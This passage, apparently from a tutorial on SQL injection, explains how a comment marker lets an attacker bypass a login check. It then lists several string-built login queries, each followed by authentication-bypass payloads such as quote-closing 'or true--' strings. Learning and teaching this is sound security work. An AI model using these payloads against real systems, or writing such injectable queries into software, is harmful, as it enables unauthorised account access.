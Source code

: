 

Here anything after -- wont be executed which makes the query to be:   </br>


		`	select username,pass from users where username='' or true;`




and it will return all the rows. and we can bypass the Login. This was the basic okay let us assume now different queries and different injection for them.

Query:

			select username,pass from users where username=('$username') and password=('$passwrd') limit 0,1;


Injections:

                     ') or true--
                     ') or ('')=('
                     ') or 1--
                     ') or ('x')=('

Query:

			select username,pass from users where username="$username" and password="$passwrd" limit 0,1;



Injections:

			" or true--
			" or ""="
			" or 1--
			" or "x"="

Query:

			select username,pass from users where username=("$username") and password=("$passwrd") limit 0,1;


Injections:

	          	") or true--
			") or ("")=("
			") or 1--
			") or ("x")=("

Query:

			select username,pass from users where username=(('$username')) and password=(('$passwrd')) limit 0,1;



Injections:

			')) or true--
			')) or ((''))=(('
			')) or 1--
			')) or (('x'))=((' 

